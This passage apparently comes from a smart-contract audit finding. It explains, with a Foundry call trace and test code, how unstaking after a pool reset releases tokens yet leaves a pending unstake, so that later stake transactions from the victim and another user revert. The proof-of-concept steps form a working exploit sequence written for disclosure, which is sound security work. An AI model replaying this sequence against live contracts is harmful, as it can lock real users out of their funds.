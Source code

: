
\`\`\`

**Explanation:**

Before the ResetPool transaction, the victim state

\`\`\` Get getAccountTokenState accountTokenState: 0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7 100000000 0 Victim can unstake amount: 100000000 \`\`\`

When user unstake transaction, can see from the log that his tokens was released and still the event UnstakeInitiated was emitted

\`\`\` ├─ \[92608] VisibleBeaconProxy::unstake(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, 100000000 \[1e8]) │ ├─ \[307] 0x1f00D6f7C18a8edf4f8Bb4Ead8a898aBDd9c9E14::implementation() \[staticcall] │ │ └─ ← \[Return] 0xd042C267758eDDf34B481E1F539d637e41db3e5a │ ├─ \[91594] 0xd042C267758eDDf34B481E1F539d637e41db3e5a::unstake(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, 100000000 \[1e8]) \[delegatecall] │ │ ├─ emit AccountResetNonceUpdated(account: victim: \[0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7], oldNonce: 0, newNonce: 1) │ │ ├─ \[8527] 0x5d2725fdE4d7Aa3388DA4519ac0449Cc031d675f::transferCollateral(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, 100000000 \[1e8], victim: \[0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7]) │ │ │ ├─ emit CollateralTransferred(fromAccount: VisibleBeaconProxy: \[0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f], tokenAddress: 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, toAccount: victim: \[0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7], tokenAmount: 100000000 \[1e8]) │ │ │ └─ ← \[Stop] │ │ ├─ emit CollateralReleased(token: 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, tokenAmount: 100000000 \[1e8], poolUnits: 100000000 \[1e8], destinationAccount: victim: \[0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7]) │ │ ├─ emit UnstakeInitiated(account: victim: \[0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7], token: 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, unitsToUnstake: 100000000 \[1e8], willCompleteAtTimestampSeconds: 1730605188 \[1.73e9]) │ │ └─ ← \[Stop] │ └─ ← \[Return] ├─ \[0] VM::stopPrank()

\`\`\`

Then after the time willCompleteAtTimestampSeconds then all user transactions will revert

\`\`\`solidity

```
     vm.warp(1730605189); // Sun Nov 03 2024 03:39:49 GMT+0000 // willCompleteAtTimestampSeconds + 1
    
    amount &#x3D; 50*10**6; 
    signature &#x3D; CreateSignature(VictimPrivateKey, amount, victim_nonce);
   
    vm.startPrank(victim);
    console.log(&quot;Victim stake to TimeBasedCollateralPool&quot;);
    console.log(&quot;Victim transaction expected to revert&quot;); 
    vm.expectRevert();
    TimeBasedCollateralPool(TimeBasedCollateralPool_contract).stake(IERC20(USDC), amount, signature); 
    vm.stopPrank(); 
    
    amount &#x3D; 50*10**6; 
    signature &#x3D; CreateSignature(PrivateKey_2, amount, user2_nonce++);
   
    vm.startPrank(user2);
    console.log(&quot;user2 stake to TimeBasedCollateralPool&quot;);
    console.log(&quot;user2 transaction expected to revert&quot;); 
    vm.expectRevert();
    TimeBasedCollateralPool(TimeBasedCollateralPool_contract).stake(IERC20(USDC), amount, signature); 
    vm.stopPrank(); 
```
